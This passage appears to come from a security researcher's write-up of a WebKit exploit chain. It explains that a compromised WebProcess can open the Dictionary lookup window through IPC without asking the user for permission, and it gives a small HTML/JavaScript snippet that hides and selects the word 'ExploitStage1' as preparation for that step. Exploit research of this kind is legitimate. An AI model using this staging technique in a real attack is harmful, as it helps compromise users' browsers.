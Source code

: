 ![](/img/W-EcHJmnOS1JPXdHbi63zw.png)

This floating window is triggable from WebProcess IPC by invoking `WebKit::WebPage::performDictionaryLookupOfCurrentSelection()`. It doesn't ask user for permission.

[WebKit/WebProcess/WebPage/Cocoa/WebPageCocoa.mm](https://github.com/WebKit/webkit/blob/950143da/Source/WebKit/WebProcess/WebPage/Cocoa/WebPageCocoa.mm#L131)

To look up a certain word in Dictionary, we can create a text selection before exploiting WebKit.

```html
<span id="key" style="font-size: 1px">ExploitStage1</span>
<script type="text/javascript">
(function() {
  const span = document.getElementById('key');
  const selection = window.getSelection();
  const range = document.createRange();
  range.selectNodeContents(span);
  selection.removeAllRanges();
  selection.addRange(range);
})()
</script>
```
